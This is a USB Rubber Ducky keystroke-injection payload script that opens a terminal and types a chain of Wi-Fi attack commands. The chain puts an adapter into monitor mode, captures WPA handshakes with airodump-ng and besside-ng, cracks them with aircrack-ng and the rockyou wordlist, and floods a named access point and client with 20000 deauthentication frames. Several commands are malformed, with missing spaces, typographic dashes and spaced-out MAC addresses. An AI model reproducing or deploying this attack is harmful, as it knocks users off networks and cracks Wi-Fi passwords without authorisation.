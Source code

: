 # Rubberducky-Payloads
DELAY 6000
ALT F2
DELAY 4000
STRING qterminal
DELAY 1000
ENTER
DELAY 6000
STRING cd Desktop
DELAY 1000
ENTER
DELAY 1000
STRING sudo iwconfig
DELAY 1000
ENTER
DELAY 1000
STRING sudo airmon-ng start wlan1
DELAY 1000
ENTER
DELAY 1000
STRING sudo iwconfig wlan1mon
DELAY 1000
ENTER
DELAY 1000
STRINGsudo airmon-ng start wlan1mon
DELAY 1000
ENTER
DELAY 1000
STRINGsudo airodump-ng wlan1mon
DELAY 1000
ENTER
DELAY 6000
CTRL
STRING c
DELAY 1000
STRINGsudo besside-ng -b “bssid” wlan1mon
DELAY 10000
ENTER
DELAY 1000
STRING sudo aircrack-ng -w rockyou.txt wpa.cap
DELAY 1000
ENTER
DELAY 1000
STRING sudo airodump-ng –channel –bssid E2 : 46 : 35 : 39 : FE : 7F wlan1mon
DELAY 10000
ENTER
DELAY 6000
STRING sudo aireplay-ng –ignore -negative-one –deauth 20000 –a E2 : 46 : 35 : 39 : FE : 7F  –c 30 : 24 : 32 : 69 : E2 : 0E wlan1mon
DELAY 1000
ENTER
DELAY 20000
CTRL 
STRING c
